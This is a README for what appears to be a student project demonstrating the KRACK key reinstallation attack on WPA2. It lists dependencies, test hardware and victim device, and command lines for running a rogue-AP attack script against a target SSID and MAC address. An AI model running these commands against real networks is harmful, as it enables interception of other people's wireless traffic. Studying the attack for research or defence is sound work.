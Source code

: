 # Key Reinstallation Attack
## Presented by Ron, Afik, Shmuel & Avigael

## Prerequisites

* Kali Linux, required dependencies:
  ```
  sudo apt update && sudo apt upgrade
  sudo apt install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
  ```
* Python 2.7 - Install pip2 as well
* Disable WiFi and run:
  ```
  sudo rfkill unblock wifi
  ```

## Python Packages

```
pip install "scapy == 2.3.3"
pip install mitm_channel_based, pyfiglet, termcolor
```

## Tested Environment

1. `Attacking Computer`: Xiaomi Redmibook 14 
2. `OS`: Kali Linux Live CD
3. `Injection Network Adapter`: TP-Link TL-WN722N V1
4. `Eth Internet Adapter`: Samsung Galaxy S9 / iPhone 8 connected physically to provide internet 
5. `Victim Host Network`: Samsung Galaxy S9 Hotspot
6. `Victim Device`: Samsung Galaxy J7 running Android 6.0.1

## Tool usage
1. First disable hardware encryption:
  ```
  sudo ./disable-hwcrypto.sh
  ```
2. Enter the krackattack folder and run the attack from this path:
  ```
  cd krackattack
  $sudo ./krack_all_zero_tk.py wlan1 wlan0 eth0 "Shabab" -t 88:83:22:82:93:CC
  ```
  or with PCAP output:
  ```
  sudo ./krack_all_zero_tk.py wlan1 wlan0 eth0 "Shabab" -t 88:83:22:82:93:CC -p "test.pcap"
  ```
  * `wlan1`: interface that listens and injects packets on the real channel
  * `wlan0`: interface that runs the Rogue AP
  * `eth0`: interface in which is provided internet access
  * `"Shabab"`: SSID of the target network
  * `-t 00:21:5d:ea:fe:be`: MAC address of the attacked device